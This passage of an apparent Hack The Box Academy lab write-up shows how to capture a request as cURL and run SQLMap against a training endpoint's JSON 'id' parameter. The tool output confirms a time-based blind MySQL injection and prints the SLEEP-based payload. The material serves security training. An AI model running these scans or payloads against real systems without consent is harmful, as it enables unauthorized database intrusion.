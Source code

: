 ## Step 2 "Get cURL"
Now that we have found a call to the endpoint, we can copy the call as cURL.
```ps
curl 'http://94.237.55.43:34697/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.55.43:34697/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.55.43:34697' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}'
```

This will help us build the right command for SQLMap

## Step 3 "Try call with SQLMap"
Let's try this command with SQLMap. We also added `--batch`, so SQLMap will not stop when it asks a question.

```ps
┌─[us-academy-6]─[10.10.15.4]─[htb-ac-1889896@htb-hxqshubmjv]─[~]
└──╼ [★]$ sqlmap -u 'http://94.237.60.55:40755/action.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:40755/shop.html' -H 'Content-Type: application/json' -H 'Origin: http://94.237.60.55:40755' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Priority: u=0' --data-raw '{"id":1}' --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:22:34 /2025-08-23/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y

.....

[23:26:37] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[23:26:39] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[23:26:41] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[23:26:44] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[23:26:46] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[23:26:48] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[23:26:50] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
[23:27:01] [WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to rerun with the '--tamper=between'
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2203 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 3085 FROM (SELECT(SLEEP(5)))sfIq)"}
---
[23:27:01] [INFO] the back-end DBMS is MySQL
[23:27:01] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
```